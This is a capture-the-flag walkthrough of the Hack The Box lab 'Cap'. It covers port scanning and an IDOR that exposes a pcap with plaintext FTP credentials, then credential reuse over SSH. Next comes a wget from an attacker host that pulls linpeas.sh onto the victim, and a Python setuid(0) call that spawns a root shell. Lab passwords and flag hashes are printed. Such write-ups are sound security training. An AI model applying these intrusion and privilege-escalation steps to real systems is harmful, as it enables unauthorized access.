







# Information Gathering

## Nmap
First, we'll start with using `nmap` to scan for open ports, along with its services and versions.

```console
kali@kali:~$ nmap -T4 -p- -A 10.10.10.245

Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-13 18:53 EDT
Nmap scan report for 10.10.10.245
Host is up (0.027s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Mon, 13 Sep 2021 22:54:08 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 13 Sep 2021 22:54:03 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 13 Sep 2021 22:54:03 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.78 seconds
```

From the nmap results, we can see that ports, **21**, **22**, and **80** are open.

### 21 - vsftpd 3.0.3

There does not seem to be any relevant vulnerability to be exploited.

### 22 - OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)

There does not seem to be any relevant vulnerability to be exploited.

### 80 - gunicorn

There does not seem to be any relevant vulnerability to be exploited.


Let's look at the homepage of http://10.10.10.245


**Figure 1:** Homepage of http://10.10.10.245

There are 3 tabs on the left-hand side that redirects to different pages.


**Figure 2:** IP Config Page


**Figure 3:** 10.10.10.245/netstat (Network Status Page)


**Figure 4:** 10.10.10.245/ip (Security Snapshot (5 Second PCAP + Analysis))

On this page, it gives some brief information about a packet capture. You can also download the `.pcap` file using the `Download` button.
The URL says 10.10.10.245/data/11, but thinking about computer science, numbers start at 0. Let's try to access number 0.


**Figure 5:** 10.10.10.245/data/0

We can see that different values are returned, so let's try to download this `.pcap` by pressing the `Download` button, and keep it in our working directory for now. Before we move away from the web application, let's run `gobuster` to ensure that we didn't miss out on any directory or file.

## Gobuster
```console
kali@kali:~$ gobuster dir -u http://10.10.10.245 -w /usr/share/wordlists/dirb/common.txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.245:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/13 19:19:04 Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17378]                         
/netstat              (Status: 200) [Size: 39164]                         
===============================================================
2021/09/13 19:19:16 Finished
===============================================================
```

Seems like we didn't miss anything! Let's also run `nikto` to scan for any web vulnerabilities.


## Nikto
```console
kali@kali:~$ nikto -h 10.10.10.245 -C all

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.245
+ Target Hostname:    10.10.10.245
+ Target Port:        80
+ Start Time:         2021-09-13 19:20:47 (GMT-4)
---------------------------------------------------------------------------
+ Server: gunicorn
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Allowed HTTP Methods: HEAD, GET, OPTIONS 
+ 26471 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2021-09-13 19:38:03 (GMT-4) (1036 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

The result doesn't return any new vulnerabilities or anything useful to us. Let's examine the `0.pcap` file that we downloaded earlier with `wireshark`.


# Exploitation  

## Wireshark - 0.pcap

```console
kali@kali:~$ wireshark 0.pcap&
```

To make the data more organized, click the `Info` tab to sort the data based on its info. After sorting, scrolling down reveals some FTP login credentials.


**Figure 6:** wireshark-1.png

```
USER nathan
PASS Buck3tH4TF0RM3!
```

Let's use these credentials to login to FTP.

```console
kali@kali:~$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: Buck3tH4TF0RM3!
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Now that we're in, let's see what's in here.

## User Flag

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 1001     1001       473164 Sep 13 23:21 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Sep 13 23:24 snap
-r--------    1 1001     1001           33 Sep 13 19:02 user.txt
226 Directory send OK.
```

There's a user.txt, let's download it to our local machine.

```console
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (732.4219 kB/s)
```

We can now exit the ftp server and view the file on our local machine.

```console
kali@kali:~$ cat user.txt
dd129f8df1ccc06c8caba438afa6695c
```

From the `nmap` scan we ran before, there was a ssh service (port 22) running, let's try to use the same set of credentials to ssh onto the machine.

```console
kali@kali:~$ ssh nathan@10.10.10.245 -p 22
nathan@10.10.10.245's password: Buck3tH4TF0RM3!

nathan@cap:~$ 
```

We are now in the system as nathan.

## Root Flag

### Privilege Escalation

First, on our local machine, make a `transfer` directory and then download `linpeas.sh` (used for scanning the system for privilege escalation).

```console
kali@kali:~/transfer$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

We can now host a http server to transfer the script over to the system (victim machine).

```console
kali@kali:~/transfer$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now on the box (victim machine), let's change our working directory to `/tmp` and then get the script from our local server.

```console
nathan@cap:~$ cd /tmp
nathan@cap:/tmp$ wget http://10.10.14.114:8000/linpeas.sh
--2021-09-14 00:18:39--  http://10.10.14.114:8000/linpeas.sh
Connecting to 10.10.14.114:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 473164 (462K) [text/x-sh]
Saving to: linpeas.sh

linpeas.sh 100%[==============================================>] 462.07K   871KB/s    in 0.5s    

2021-09-14 00:18:40 (871 KB/s) - linpeas.sh saved [473164/473164]
nathan@cap:/tmp$ chmod +x linpeas.sh
```

Let's execute this script to scan for privilege escalation vulnerabilities.

```console
nathan@cap:/tmp$ chmod +x linpeas.sh
nathan@cap:/tmp$ ./linpeas.sh

...
```

The script returns a lot of data, but what we are looking for is text that are highlighed in yellow and with red text.


**Figure 7:** linpeas.sh

This basically says that we can set the UID using `python`, if so, we can set the UID to root (root UID is 0) and spawn a shell.

```console
nathan@cap:/tmp$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:/tmp# 
```

Hooray!! We got root.

Let's go get the root flag now.

```console
root@cap:/tmp# cat /root/root.txt
088cc97218940d8d0949848de821da94
```

# Conclusion
To conclude, without trying the set of credential on ssh, getting onto the system for privilege escalation wouldn't have been possible. Users will often reuse credentials on different systems.

# References
1. [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
2. [https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh)
3. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
4. [https://hackthebox.eu](https://hackthebox.eu)
